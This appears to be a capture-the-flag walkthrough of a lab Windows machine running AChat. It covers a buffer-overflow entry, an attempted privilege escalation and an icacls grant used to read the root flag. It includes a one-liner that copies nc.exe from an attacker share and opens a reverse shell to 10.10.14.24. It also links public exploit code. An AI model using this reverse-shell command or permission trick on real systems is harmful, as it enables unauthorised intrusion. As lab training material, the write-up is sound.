





Shell as Alfred
Port 9255 is running AChat which seems to be a chatbot of some sort but I cannot access it through http
Searchsploit

This is going to be a buffer overflow exploit
This github has a python script and a bash script to create the payload. Its just an msfvenom script.
https://github.com/mpgn/AChat-Reverse-TCP-Exploit/blob/master/AChat_Exploit.py
This machine was insanely unstable, everytime you would use the exploit you would have 10 seconds before the shell died, then youd have to reset the machine to try it again. I figured it was the payload so i tried every payload I could think of but they all failed. I eventually realized it was just the machine being unstable after reading the reviews.
So I created a one liner to instantly use once I got a shell to download nc.exe and get a new shell before my shell died and it worked perfectly(I felt pretty smart after this). I also opened a second shell just in case my first one dies.
cd \windows\temp & net use \\10.10.14.24\share /u:df df & copy \\10.10.14.24\share\nc.exe & .\nc.exe -e cmd 10.10.14.24 9999


No other users so the next step is Admin
Privileged escalation to admin
Looks like we can possibly use https://www.exploit-db.com/exploits/50517 however it was discovered years after the machine came out.
I didnt find anything right away and i didnt want to deal with having to get the initial shell again so this exploit was released 2 years after the box came out. I will still try to find the actual path till I go to sleep.

Actually it looks like I still cant read root.txt
C:\Users\Administrator>icacls Desktop
icacls Desktop
Desktop NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
CHATTERBOX\Administrator:(I)(OI)(CI)(F)
BUILTIN\Administrators:(I)(OI)(CI)(F)
CHATTERBOX\Alfred:(I)(OI)(CI)(F)
We can change permissions with this
icacls root.txt /grant alfred:F
